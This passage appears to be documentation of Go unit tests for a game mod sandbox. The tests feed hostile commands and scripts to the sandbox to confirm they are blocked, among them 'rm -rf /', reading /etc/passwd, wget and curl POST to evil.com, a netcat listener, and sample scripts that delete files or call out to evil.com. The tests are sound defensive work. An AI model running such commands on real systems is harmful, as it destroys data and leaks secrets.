 ```go
    }
    
    for _, attack := range networkAttacks {
        t.Run(attack.name, func(t *testing.T) {
            err := attack.method()
            assert.ErrorIs(t, err, ErrNetworkAccessDenied)
        })
    }
}
```

3. **システムコマンド実行対策**
```go
func TestModSystemCommandPrevention(t *testing.T) {
    mod := &Mod{
        Name: "SystemMod",
        Permissions: ModPermissions{
            SystemAccess: false,
        },
    }
    
    sandbox := NewModSandbox(mod)
    
    systemAttacks := [][]string{
        {"rm", "-rf", "/"},
        {"cat", "/etc/passwd"},
        {"wget", "http://evil.com/malware"},
        {"curl", "-X", "POST", "http://evil.com/data"},
        {"nc", "-l", "1234"},
        {"sh", "-c", "echo pwned"},
    }
    
    for _, cmd := range systemAttacks {
        t.Run(strings.Join(cmd, " "), func(t *testing.T) {
            err := sandbox.ExecuteCommand(cmd[0], cmd[1:]...)
            assert.ErrorIs(t, err, ErrSystemAccessDenied)
        })
    }
}
```

4. **MODコード静的解析**
```go
func TestModCodeStaticAnalysis(t *testing.T) {
    maliciousScripts := []struct {
        name   string
        script string
        threat string
    }{
        {
            "OS Exit", 
            "package main\nimport \"os\"\nfunc main() { os.Exit(1) }",
            "System termination",
        },
        {
            "File deletion",
            "package main\nimport \"os\"\nfunc main() { os.Remove(\"/important\") }",
            "File manipulation",
        },
        {
            "Network access",
            "package main\nimport \"net/http\"\nfunc main() { http.Get(\"http://evil.com\") }",
            "Unauthorized network access",
        },
```